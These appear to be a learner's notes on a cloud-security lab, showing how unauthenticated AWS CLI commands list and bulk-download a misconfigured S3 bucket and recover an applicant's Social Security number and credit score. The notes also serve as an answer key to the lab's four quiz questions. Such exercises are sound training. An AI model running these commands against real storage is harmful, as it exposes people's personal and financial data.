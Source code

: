 http://testdata.s3.amazonaws.com/examplefolder/examplefile.txt
aws --endpoint-url [target URl/IP] s3 [command] s3://[s3 bucket name]

--no-sign-request

Given bucket names
immersive-code-assets
immersive-library-books
immersive-credit-applications

aws --endpoint-url http://10.102.8.154 s3 ls s3://immersive-code-assets --no-sign-request

Machines S3 10.102.8.154 (Private)

Tasks
Examine the specified S3 buckets.
Identify the misconfigured bucket.


Question 1 of 4
Using a web browser to examine a bucket, what is the maximum number of keys (files) the HTTP request will display?
Tried:
http://immersive-code-assets.s3.amazonaws.com/
http://10.102.8.154.s3.amazonaws.com/immersive-code-assets/css/bootstrap.min.css

No, I had to Google. https://docs.aws.amazon.com/AmazonS3/latest/API/API_ListObjects.html
Answer: 1,000




Question 2 of 4
Which three directories are present in the immersive-code-assets bucket? Please enter each name in alphabetical order and separated with a comma.
aws --endpoint-url http://10.102.8.154 s3 ls s3://immersive-code-assets --no-sign-request
Answer: css,images,js

Question 3 of 4
Which S3 bucket has been misconfigured to allow public access?

http://immersive-credit-applications.s3.amazonaws.com/2020-01-04/13:38:58/8261-michelle_williams/credit_score.txt
http://immersive-code-assets.s3.amazonaws.com/css/bootstrap.min.css

aws --endpoint-url http://10.102.8.154 s3 ls s3://immersive-library-books --no-sign-request
An error occurred (AccessDenied) when calling the ListObjects operation: Access Denied.

Answer: immersive-credit-applications

Question 4 of 4
What is Carla Riley’s social security number?


I'm going to look up how to use the cp and sync command:
run aws s3 cp help

cp <LocalPath><S3Uri> or <S3Uri><LocalPath> or <S3Uri><S3Uri>

--dryrun
--include <value>
--acl<value>
cp didn't copy

Tried sync, worked!
aws --endpoint-url http://10.102.8.154 s3 sync  s3://immersive-credit-applications/ /home/forensics/Documents --include Riley --no-sign-request

Ok, this gave more than Riley, way more.

find command?
Couldn't quite get it to find the file, so let's output the text to a file and then grep from that file.
find ~/Documents *carla_riley -print >> 0000.txt 
cat 0000.txt | grep riley

/home/forensics/Documents/2020-03-12/17:00:16/9008-carla_riley
/home/forensics/Documents/2020-03-12/17:00:16/9008-carla_riley/credit_score.txt
/home/forensics/Documents/2020-03-12/17:00:16/9008-carla_riley/application.txt

The application has her info
Name: Carla Riley
Gender: F
Address: 9560 Brain Square Apt. 529
East Tom, NJ 08584
Profession: Public affairs consultant
Email Address: carlariley@hotmail.com
Social Security Number: 559-50-3126

Also, credit score had this
FICO Score 8
Equifax
505


Answer: 559-50-3126

